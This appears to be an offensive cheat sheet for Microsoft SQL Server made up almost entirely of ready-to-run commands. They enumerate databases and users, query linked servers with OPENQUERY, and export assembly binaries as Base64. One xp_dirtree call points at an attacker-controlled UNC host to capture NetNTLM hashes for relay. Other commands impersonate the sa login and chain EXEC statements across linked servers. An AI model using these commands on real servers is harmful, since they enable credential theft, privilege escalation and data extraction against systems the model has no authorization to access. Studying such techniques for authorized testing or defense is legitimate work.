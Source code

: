 ### Common Commands

```console
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM <DATABASE>.information_schema.tables;
SELECT * FROM <DATABASE>.dbo.users;
```

### Show Database Content

```console
1> SELECT name FROM master.sys.databases
2> go
```

### OPENQUERY

```console
1> select * from openquery("web\clients", 'select name from master.sys.databases');
2> go
```

```console
1> select * from openquery("web\clients", 'select name from clients.sys.objects');
2> go
```

### Binary Extraction as Base64

```console
1> select cast((select content from openquery([web\clients], 'select * from clients.sys.assembly_files') where assembly_id = 65536) as varbinary(max)) for xml path(''), binary base64;
2> go > export.txt
```

### Steal NetNTLM Hash / Relay Attack

```console
SQL> exec master.dbo.xp_dirtree '\\<LHOST>\FOOBAR'
```

### Linked SQL Server Enumeration

#### Common Commands

```console
SQL> enum_links
SQL> EXECUTE('select @@servername, @@version') AT [<RHOST>];
SQL> use_link [PRIMARY]
SQL> exec_as_login sa
```

#### Advanced Enumeration

```console
SQL> SELECT user_name();
SQL> SELECT name,sysadmin FROM syslogins;
SQL> SELECT srvname,isremote FROM sysservers;
SQL> EXEC ('SELECT current_user') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('SELECT srvname,isremote FROM sysservers') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''SELECT suser_name()'') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```
